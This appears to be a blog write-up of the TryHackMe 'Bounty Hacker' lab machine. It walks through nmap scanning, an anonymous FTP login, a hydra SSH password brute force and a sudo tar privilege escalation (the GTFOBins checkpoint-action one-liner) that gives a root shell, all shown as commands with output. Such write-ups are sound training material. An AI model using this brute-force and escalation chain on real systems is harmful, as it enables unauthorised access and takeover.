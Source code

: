 +++ 
categories = ["Hugo"] 
date = "2020-08-27" 
description = "Bounty Hacker - TryHackMe Writeup"

featuredalt = "" 
featuredpath = "date" 
linktitle = "" 
title = "Bounty Hacker - TryHackMe Writeup" 
slug = "Bounty Hacker - TryHackMe Writeup" 
type = "post" 
+++



![](static/image/bounty_hacker.jpeg)

Welcome to my WriteUp. Ok So our journy starts from question 3 but before every question we need to enumerate the mechine. So Let's do it with **nmap**

## Service enumeration

```
# nmap -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-27 02:25 +06
Nmap scan report for 10.10.196.2
Host is up (0.31s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.67.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.50 seconds

```

Here we have port 21,22,80 open and we can see ftp have anonymous login allowed so let's do it.
```
Username : Anonymous
Password : Anonymous # In this mechine we don't need password to login.
```

## FTP enumeration

```
# ftp $ip
Connected to 10.10.196.2.
220 (vsFTPd 3.0.3)
Name (10.10.196.2:root): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```

Here we have 2 text file. Grab it on our computer using mget *
If You want to download file one by one then you can simply use **get filename.ext**

```
ftp> mget *
mget locks.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (350.0884 kB/s)
mget task.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (220.6188 kB/s)
ftp> exit
221 Goodbye.
```
Ok So now we have two text file. From this two we will get our 3rd question answer.
If we look at question number 4 it say's **What service can you bruteforce with the text file found?** The text file locks.txt looks like a dictionary file we can bruteforce with this file on ssh using hydra.


## Bruteforce

**-l (Username)**
**-P (Password file)**

```
hydra -l lin -P ./locks.txt ssh://$ip 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-27 02:31:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.196.2:22/
[22][ssh] host: $ip   login: lin   password: Re***4g***yn***at*
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-28 02:32:03

```

Now we have ssh username and password so let's login on ssh.

```
# ssh lin@$ip

lin@10.10.196.2's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)


lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{C****_SyN******}
```

Here we got our **User.txt**


## Privilege Escalation


Now we have to get root.txt

If you try :
```
lin@bountyhacker:~/Desktop$ cat /root/root.txt
cat: /root/root.txt: Permission denied
```
So we have to get root access.
Start with ** sudo -l **
```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```


We can run root using ** tar **
Now we need to find Root Escalation for tar. I always use gtfobins.github.io for this type of escalation.
If we search tar on GTFOBINS then we will found a line of code in **Sudo Section**
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

You need to copy this code and pest on your bountyhacker ssh shell

```
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{8***Y_h****r}
```


**Congratulations** you just complete Bounty Hacker from TryHackMe.
Thank You and see you on next writeup.
















